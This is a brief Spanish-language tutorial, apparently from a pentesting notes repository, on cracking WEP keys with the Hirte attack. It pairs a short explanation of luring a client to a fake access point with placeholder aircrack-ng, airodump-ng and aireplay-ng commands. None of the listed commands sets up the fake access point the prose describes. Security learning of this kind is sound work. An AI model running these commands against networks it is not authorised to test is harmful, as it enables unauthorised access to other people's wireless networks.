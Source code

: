# Cracking WEP utilizando el Ataque Hirte

El ataque Hirte permite romper la clave WEP de una red inalámbrica inaccesible al atacante, aprovechando que el dispositivo cliente  se encuentra cerca. Para lograrlo, se crea un punto de acceso falso con el mismo SSID de la red WEP, provocando que el dispositivo cliente se conecte automáticamente. Esto genera paquetes ARP que contienen fragmentos de la clave WEP, facilitando su descifrado.

Capturar paquetes

```
airodump-ng <interfaz>
```

Una vez que se sabe el objetivo se captura los paquetes con este comando

```
airodump-ng --bssid <BSSID> --channel <canal> -w <archivo_salida> <interfaz>
```

Realizar ataque de fragmentación

```
aireplay-ng -7 -D -e [SSID] -a [BSSID] <interfaz>
```

Descifrar la clave WEP

```bash
aircrack-ng -b <BSSID> <archivo_salida>.cap
```

Mas informacion:

[https://www.aircrack-ng.org/doku.php?id=hirte](https://www.aircrack-ng.org/doku.php?id=hirte)
